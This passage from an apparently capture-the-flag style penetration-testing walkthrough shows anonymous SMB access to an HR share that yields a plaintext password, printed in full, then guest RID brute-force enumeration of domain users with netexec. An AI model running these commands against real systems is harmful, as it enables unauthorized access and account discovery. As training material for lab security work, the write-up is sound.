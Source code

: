 
### 2.6 Retrieving Sensitive File

We connect via `smbclient` to download the file:

``` bash
smbclient //10.10.11.35/HR -N 
get "Notice from HR.txt" 
cat Notice\ from\ HR.txt
```

![smbclient_hr_null](smbclient_hr_null.png)

**Finding:**  
The file contains a plaintext password:

`Cicada$M6Corpb*@Lp#nZp!8`

We save it into a file named `credentials.txt` for later use.

![password](password.png)

---

### 2.7 Enumerating Domain Users via RID Brute Force

**Note:** RID brute force is an efficient technique in Active Directory environments as it enumerates accounts by incrementing the Relative Identifier (RID) portion of the Security Identifier (SID). It does not require a username list and can reveal built-in and custom accounts.

As we still do not have a valid username, we enumerate users by brute-forcing RIDs:

``` bash
netexec smb 10.10.11.35 -u 'guest' -p '' --rid-brute
```

![netexec_guest_ridbrute](netexec_guest_ridbrute.png)

We clean the output:

``` bash
netexec smb 10.10.11.35 -u 'guest' -p '' --rid-brute | grep 'SidTypeUser' > users.txt
cat users.txt
```

![netexec_users](netexec_users.png)

We can further clean this list and keep only the final usernames with:

``` bash
cat users.txt | tr '\\' ' ' | awk '{print $7}' > users_clean.txt
cat users_clean.txt
```

![netexec_users_clean](netexec_users_clean.png)

---
